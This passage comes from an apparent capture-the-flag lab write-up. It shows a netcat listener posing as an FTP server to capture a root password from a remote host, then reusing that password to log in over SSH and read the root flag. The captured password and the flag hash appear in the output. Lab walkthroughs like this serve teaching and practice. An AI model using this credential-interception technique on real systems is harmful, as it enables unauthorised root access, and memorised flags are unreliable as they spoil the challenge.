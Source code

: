 Capture the traffic with netcat.<br>
If we wait couple of minutes, there is a connection from remote host.<br>
By sending a response message "331 Please specify the password.", we can ahieve a password for user root.
{% highlight shell %}
root@r1:~# nc -nlvp 21
nc -nlvp 21
Listening on [0.0.0.0] (family 0, port 21)
Connection from [10.78.10.2] port 21 [tcp/*] accepted (family 2, sport 52504)

USER root
331 Please specify the password.
PASS BGPtelc0rout1ng
{% endhighlight %}

We can not use this password for ftp.<br>
However. we can take advantage of this to login to "10.10.10.105" with ssh.
{% highlight shell %}
root@kali:~# ssh root@10.10.10.105
The authenticity of host '10.10.10.105 (10.10.10.105)' can't be established.
ECDSA key fingerprint is SHA256:ocbg7qpaEpjQc5WGCnavYd2bgyXg7S8if8UaXgT1ztE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.105' (ECDSA) to the list of known hosts.
root@10.10.10.105's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 19 17:48:44 UTC 2019

  System load:  0.08               Users logged in:       0
  Usage of /:   40.8% of 19.56GB   IP address for ens33:  10.10.10.105
  Memory usage: 32%                IP address for lxdbr0: 10.99.64.1
  Swap usage:   0%                 IP address for lxdbr1: 10.120.15.10
  Processes:    211


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

4 packages can be updated.
0 updates are security updates.


Last login: Wed Sep  5 14:32:15 2018
root@carrier:~# ls
root.txt  secretdata.txt
root@carrier:~# cat root.txt 
2832e552061532250ac2a21478fd4866
{% endhighlight %}
